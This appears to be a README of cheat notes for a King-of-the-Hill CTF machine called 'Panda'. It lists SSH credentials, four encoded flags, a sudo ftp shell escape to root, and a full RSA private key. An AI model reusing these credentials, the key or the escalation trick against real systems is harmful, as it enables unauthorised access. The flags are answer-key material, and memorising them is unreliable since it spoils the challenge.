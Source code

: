 # Koth-Panda -->

# ssh credentials:

```shifu:batman```

```username: po:password1```

# PANDA FLAGS:

```NzRjZTk1ZDZhYTVmNTQyZmU5MDliMThkYzA2ZDRiYTMK```

```MGNlMTZmYjFiYmM1ODY2OTczY2JlZmNlNjY4YTJmYTcK```

```YzIzOGI2MzNkNTExOTM3NGYyMmQwNzk4Y2Q5ZDkzOGIK```

```Mzk3NGRkYWFmM2RjM2ViOGU0NjZlNWQ2YjMyNDZjNWEK```





# to get root with user shifu:

```sudo /usr/bin/ftp```

```!/bin/sh```

find (suid's



# Tigress's Id_rsa:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA0rJZ4ALm6AgaONlRb5YmyTYRqXkI6c/+TGg9biygTS1GiYFC
E+jMqk+q9nsl0cWFjns4Z2MA5uxiPzix7LcywiB6zScGcSkYaqKCFoOFT3VlpQYh
hhSHpPyv2Td6x6D1VhkYC/B2ilQsJJyqbGQ10JnP9wo1USzh21bsBPBs+wz6dnKZ
oY7BWkE1PwBfjhEVEFBSz5XfmcoOK2RQqAJ1YYWoxHA0fJ88pj7PahIGkGrq6g/Z
8AGZhYdZBSl91gMAnRjOrYIq8ufnJNw0YQpA78h9VDJUfXXfEe3EGCTpmcOH0NMa
RyoMS9qreJZ1NgwuTlFJwp5zj9RMRDBqnv/hcQIDAQABAoIBAAOyeX1Cz8Z2je89
cP5iRh/1wO2WYB+qNK4mjh1mzxFLoBc9m2k6Bo1ehIN6ubkqnCNZ6i12QUfMEhVF
62lZ9ZwOcdkzvBs0O2dznpDCkg5I4xW4O9JcfdzZSkSngpIKMwPlwNREze+zdmrW
DO+F+qPEby/IkBLylKwCpHWZum/VTEj1fYCJVHbZf5Pycdg0nOFHigGdpnJW18LI
yL9Firkc4TVsEd1a05THeENvp2nCnreIpBkyf32lOZB7M6AWFsROY1UApLtN7KS/
YPGnL2aftlCfrCqqj5WZQ7AUPAQPqgW+LYr+VaIRHyeRQnK1SFYZfV9PiYC3eloU
U8zMAxkCgYEA/eEHG1fjHb9v5U5leUyQDka9T35+Fq4P+sJh3c3bAQgwBQ0t5576
ZKobHwJZBXGE44gr8DmYnQWRymWWTly0weBMRv6kLCchU9BTGg0SsAEVKxtq+VUp
UyC/N4C0eWl3OAl4JsCpj0z/uc3oMryFyWr7lBajOwrKX0tsLcBqXvMCgYEA1HT4
FFHxwrrhsKztT6CtwHePnDbmzAoo6aSMIAeAf8dkQpddLAw85lHVGUZZie7OxXS7
euOwg15omV+9AxxRne0SEIAf8ldtiyquH+LaZHQElkPpdj2B6rznBywovLNDY4AT
biUGze+MwlH9gUHuyaULB9vcw9Dz30S/XgKwPwsCgYEAg1mQZroy3Co2h0nnQDm3
cltxCJbmP2+w/sjg/3PI8iC9T2/BJ0veOoSz4XhCfIl9+oZyTShPaDYAdtnWSRa3
wnL8o+KNJ/bazFVFGX5YA82bmSDnWLaR2dtgcyPYu9QwBUMI8evODkEFMalxkAZv
pYT/Ql/v9dUgXOtVvdoGbrcCgYEA0k6/TA4ZzXOE+YkUmOArXvx7cl1+dbgQ68dw
1jvW3aYY/zoqhvHOTwfudEiJVdrJX/i/pVRCZKhNzpVQ2wVrXXNRkHfkJ9aXn00u
dG3xVcLqz3yGW/9i3WUFJLp30ON678HWeg+4/p4Erk7PLOaBY6Y2lx7zF/t9jSPW
c08h/CUCgYA2cFZCvohbd27q0BDVHZQhAhLIRnRexTL4urF7Y+BzyGDiiPKcFYM8
44Ruf0x4Yvkjx1k4OR1njTKSmnPA4FSu/jzUH0KsVPUe0Kyx9W6VVyw1LLYuj/iY
KQCo0DuuJ1a3H0niYraMvmpiF73XW72l8SZGw+xT+741AxqZ5ljRpQ==
-----END RSA PRIVATE KEY-----
```

---END---
